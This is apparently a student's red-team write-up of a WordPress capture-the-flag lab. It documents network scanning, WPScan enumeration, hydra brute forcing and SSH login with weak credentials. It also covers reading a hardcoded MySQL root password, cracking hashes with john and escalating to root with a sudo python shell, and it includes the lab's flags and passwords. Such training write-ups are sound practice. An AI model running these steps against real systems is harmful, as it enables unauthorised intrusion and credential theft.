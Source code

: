 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
`$ netdiscover -r 192.168.1.255/16`  
```
![](images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
`$ nmap -sV 192.168.1.110`
```
![](images/nmap-sV.png)

Name of VM: `Target 1`  
Operating System: `Linux`  
Purpose: `Defensive Blue Team`  
IP Address: `192.168.1.110`


```bash
`$ nmap -sS -sV -O 192.168.1.0/24`
```
![](images/nmap-sS-sV-O1.png)
![](images/nmap-sS-sV-O2.png)
![](images/nmap-sS-sV-O3.png)
![](images/nmap-sS-sV-O4.png)

This scan identifies the services below as potential points of entry:
- `Target 1` (192.168.1.110)
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4  
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))  
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)  
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  

The following vulnerabilities were identified on **`Target 1`**:
- `Target 1` (192.168.1.110)
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Critical Vulnerabilities 

The following vulnerabilities were identified on `Target 1`.  


|           Vulnerabilities       |             Description                                                                          |                      Impact                                                                                                                      |
| --------------------------------|:-------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| Port 80 WordPress vulnerability | Nmap detects servers, ports, services and OS version.                                            | The source code of services.html allows attacker to gain more inside information about TARGET1.                                                  |
| Port 22 SSH vulnerability       | Secure Shell (SSH) port is opened and allows connections to TARGET1.                             | SSH allows attacker to further exploit TARGET1 and access to sensitive information.                                                              |
| MYSQL vulnerability             | The root user access information for MYSQL database is hardcoded in /var/www/html/wp-config.php. | Root user and password enable attacker to connect to MYSQL database and discover other sensitive information. Example: User name and  password.  |
| Sudo privilege vulnerability    | Privilege escalation of credentials from a standard user to root through sudo privileges.        | Root account is compromised.                                                                                                                     |


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.  
- Command used: wpscan --url http://192.168.1.110/wordpress -eu  

```bash
root@Kali:~# wpscan --url http://192.168.1.110/wordpress -eu
```  
![](images/wpscan.png)
![](images/wpscan1.png)

- **Exploit Used**
- `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](images/hydra.png)

 - ssh into **`Michael’s`** account and look in the/var/www files
  - **Command:** `ssh michael@192.168.1.110`  
  - The username and password **`michael`** were identical, allowing for the ssh connection.  
  ![Michael's Password](images/michael.png)  
  
  - **Command:** `cd /var/www`  
  - **Command:** `ls`  
  - **Command:** `grep -RE flag html`  
  - **`flag1`** was part of the long printout.
  ![Flag1 Printout](images/flag1.png)

**Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
![Flag2 txt](images/flag2.png)  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
![Flag3](images/flag3.png)  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  
![WP-CONFIG](images/mysql.png)

- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  
- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
![Access to MYSQL](images/mysql1.png) 
![Database](images/mysql2.png)  
![Database](images/mysql2.png)

  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

![Password Hashes from wp_users](images/hashes.png)  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
![John Hashes Password](images/john.png)  
      - **Command:** `john --show wp_hashes.txt`  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:** `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
![Sudo Steven's Account](images/steven.png)  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
![Flag 4](images/flag4.png)

### Submitted By - Aziz Somani
